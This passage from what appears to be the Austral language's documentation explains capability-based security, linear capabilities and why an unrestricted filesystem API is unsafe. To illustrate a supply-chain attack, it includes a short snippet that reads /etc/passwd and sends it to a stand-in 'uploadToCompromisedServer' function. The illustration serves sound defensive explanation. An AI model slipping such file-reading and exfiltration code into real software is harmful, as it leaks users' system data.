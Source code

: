 Access to the computer clock, too, [should be restricted][clock], since accurate
timing information can be used by malicious or compromised dependencies to carry
out a [timing attack][timing] or exploit a [side-channel vulnerability][side]
such as [Spectre][spectre].

## Linear Capabilities {#cap-linear}

A capability is a value that represents an unforgeable proof of having
permission to perform an action. They have the following properties:

1. Capabilities can be destroyed.

2. Capabilities can be surrendered by passing them to others.

3. Capabilities cannot be duplicated.

4. Capabilities cannot be acquired out of thin air: they must be passed by the
   client.

Capabilities in Austral are implemented as linear types: they are destroyed by
being consumed, they are surrendered by simply passing the value to a function
(i.e., by being consumed), they are non-duplicable since linear types cannot be
duplicated. The fourth restriction must be implemented manually by the
programmer.

## A Capability-Secure Filesystem API {#cap-fs}

Consider a non-capability-secure filesystem API:

```austral
module Files is
    -- File and directory paths.
    type Path: Linear;
    -- Creating and disposing of paths.
    function Make_Path(value: String): Path;
    function Dispose_Path(path: Path): Unit;
    -- Reading and writing.
    generic [R: Region]
    function Read_File(path: &[Path, R]): String;
    generic [R: Region]
    function Write_File(path: &![Path, R], content: String): Unit;
end module.
```

(Error handling _etc._ omitted for clarity.)

Here, any client can construct a path from a string, then read the file pointed
to by that path or write to it. A compromised transitive dependency could then
read the contents of your home directory, or any file in the filesystem that the
process has access to, like so:

```austral
let p: Path := Parse_Path(Make_String("/etc/passwd"));
let secrets: String := Read_File(&p);
-- Send this over the network, using an equally capability-insecure network
-- API.
uploadToCompromisedServer(secrets);
```


[discord]: https://discord.gg/GFVZzV46
[issues]: https://github.com/austral/austral/issues
[tw]: https://twitter.com/zetalyrae
[austral]: https://austral-lang.org/
[goals]: https://austral-lang.org/spec/spec.html#goals
[quiz]: https://wordsandbuttons.online/so_you_think_you_know_c.html
[lawyering]: http://www.catb.org/jargon/html/L/language-lawyer.html
[else]: https://en.wikipedia.org/wiki/Dangling_else
[gotofail]: https://en.wikipedia.org/wiki/Unreachable_code#goto_fail_bug
[cliche]: https://en.wikipedia.org/wiki/Thought-terminating_clich%C3%A9
[lexerhack]: https://en.wikipedia.org/wiki/Lexer_hack
[vexing]: https://en.wikipedia.org/wiki/Most_vexing_parse
[pemdas]: https://en.wikipedia.org/wiki/Order_of_operations
[concepts]: https://en.wikipedia.org/wiki/Concepts_(C%2B%2B)
[linearitycheck]: https://github.com/austral/austral/blob/32fba714b3fe900e79c39682e44b63846017f4df/lib/LinearityCheck.ml
[cap]: https://en.wikipedia.org/wiki/Capability-based_security
[supplychain]: https://en.wikipedia.org/wiki/Supply_chain_attack
[langsec]: http://langsec.org/
[clock]: https://twitter.com/robotlolita/status/1474351603008389122
[timing]: https://en.wikipedia.org/wiki/Timing_attack
[side]: https://en.wikipedia.org/wiki/Side-channel_attack
[spectre]: https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)
[spec]: https://austral-lang.org/spec/spec.html
[spec-linearity]: https://austral-lang.org/spec/spec.html#linearity
[sum]: https://en.wikipedia.org/wiki/Algebraic_data_type
[typeclass]: https://austral-lang.org/spec/spec.html#type-classes
[borrowing]: https://austral-lang.org/tutorial/borrowing
[copying-c]: https://eev.ee/blog/2016/12/01/lets-stop-copying-c/